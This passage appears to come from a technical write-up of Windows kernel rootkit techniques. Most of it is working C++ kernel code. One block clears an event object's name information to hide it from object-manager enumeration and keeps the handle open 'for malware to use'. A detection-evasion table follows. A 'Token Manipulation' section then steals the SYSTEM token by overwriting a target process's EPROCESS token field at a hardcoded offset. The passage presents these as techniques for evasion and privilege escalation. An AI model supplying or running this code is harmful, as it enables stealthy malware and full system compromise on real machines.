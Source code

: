 ```cpp

#ifndef OBJECT_HEADER_TO_NAME_INFO
#define OBJECT_HEADER_TO_NAME_INFO(hdr) \
    ((POBJECT_HEADER_NAME_INFO)((hdr)->InfoMask & 0x02 ? \
        (ULONG_PTR)(hdr) - sizeof(OBJECT_HEADER_NAME_INFO) : NULL))
#endif

POBJECT_HEADER pObjHeader = OBJECT_TO_OBJECT_HEADER(pEvent);

// Clear NameInfo to hide from namespace enumeration
// Note: This invalidates the name pointer, causing enumeration to skip this object
POBJECT_HEADER_NAME_INFO pNameInfo = OBJECT_HEADER_TO_NAME_INFO(pObjHeader);
if (pNameInfo) {
    // Zero out name information
    RtlZeroMemory(pNameInfo, sizeof(OBJECT_HEADER_NAME_INFO));
}

ObDereferenceObject(pEvent);
// Keep handle open for malware to use
```

**Detection Evasion:**
- Object Manager Enumeration: BYPASSED (no name entry)
- Handle Enumeration: NOT BYPASSED (handle still exists)
- Named Object Scanning: BYPASSED

### Technique 4: Token Manipulation (Privilege Escalation)

**Objective:** Elevate process privileges to SYSTEM without creating new process

**Method:**
1. Locate target process EPROCESS
2. Locate SYSTEM process (PID 4) EPROCESS
3. Copy SYSTEM token pointer to target process Token field
4. Target process now has SYSTEM privileges

**Kernel Code Example:**

```cpp
// Locate target process
PEPROCESS pTargetProcess = NULL;
PsLookupProcessByProcessId((HANDLE)dwTargetPID, &pTargetProcess);

// Locate SYSTEM process (PID 4)
PEPROCESS pSystemProcess = NULL;
PsLookupProcessByProcessId((HANDLE)4, &pSystemProcess);

// Calculate Token offset (varies by Windows version)
// Windows 10 22H2: EPROCESS + 0x4B8
ULONG_PTR offsetToken = 0x4B8;

// Get SYSTEM token
PVOID pSystemToken = *(PVOID*)((ULONG_PTR)pSystemProcess + offsetToken);

// Clear reference count bits (low 3-4 bits depending on Windows version)
// Windows 10: 3 bits, Windows 11+: 4 bits
// Using conservative 4-bit mask for compatibility
pSystemToken = (PVOID)((ULONG_PTR)pSystemToken & ~0xF);

// Copy SYSTEM token to target process
*(PVOID*)((ULONG_PTR)pTargetProcess + offsetToken) = pSystemToken;

ObDereferenceObject(pTargetProcess);
ObDereferenceObject(pSystemProcess);
```
